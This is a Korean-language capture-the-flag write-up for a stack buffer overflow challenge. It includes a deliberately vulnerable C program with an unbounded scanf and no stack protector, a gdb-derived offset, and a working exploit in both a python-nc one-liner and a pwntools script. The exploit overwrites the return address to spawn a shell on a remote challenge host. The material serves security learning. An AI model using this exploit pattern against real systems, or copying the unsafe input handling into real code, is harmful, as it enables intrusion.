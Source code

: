 ## 📍Return Address Overwrite

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

#### 풀이
`main` 함수가 반환될 때 돌아갈 반환 주소에 `get_shell()` 함수의 주소를 넣어야 한다.
`scanf()` 함수의 버퍼 시작 주소를 알아내고, 리턴 주소인 `rbp+0x8`까지의 거리를 알아낸다.
버퍼 시작 주소부터 리턴 주소까지 더미 데이터로 채운다.
더미 데이터 이후에는 `get_shell()` 함수의 시작 주소를 넣는다.


`rao` 바이너리를 gdb로 분석:
![[{3DBFE693-B01D-495B-8CCA-1428D4460714}.png]]

`scanf()` 함수의 버퍼 시작 주소 = `rbp-0x30`

![[{0F7D3B72-B913-4AB6-A0BD-BA48609C5D6C}.png]]

`get_shell()` 함수의 시작 주소: `0x4006aa`

```
$ (python -c "print 'A'*0x30 + 'B'*0x8 + '\xaa\x06\x40\x00\x00\x00\x00\x00')" | nc host3.dreamhack.games 22743
```

위처럼 파이썬 인터프리터로 전달하지 말고 pwntools를 이용해보자! 😠

```python
from pwn import *

p = remote('host3.dreamhack.games', 22743)
payload = b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

p.interactive()
```

![[{B5182A5A-5D23-4958-81C1-1B7FF2686AE5}.png]]

🚩